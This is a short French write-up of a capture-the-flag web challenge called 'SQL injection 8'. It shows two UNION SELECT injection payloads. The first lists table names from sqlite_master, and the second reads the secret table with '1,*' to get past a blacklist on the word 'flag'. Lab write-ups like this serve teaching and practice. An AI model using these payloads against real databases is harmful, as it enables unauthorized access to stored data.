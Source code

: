 # SQL injection 8

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce huitième et dernier défi d'injection SQL, on utilise le même code backend que celui du défi SQL injection 6. Il y a une table secrète qui contient une colonne "flag". Cependent, le mot "flag" est dans la blacklist. Il est complètement interdit. En d'autres termes, la requête SQL ne sera pas exécutée du tout si le mot est détecté. 

## Setup

Requirements:
- BurpSuite

# Writeup

Nom de la table:
`" union select 1,2,name from sqlite_master--`

Résultat: cKretTblName

Donc, on l'utilise dans la requête suivante: 
`" union select 1,* from cKretTblName--`

Dans ce cas, `1,*` deviendra `1, id, flag`. Comme `flag` est dans le dernier champs, c'est lui qui sera utilisé comme mot de passe.

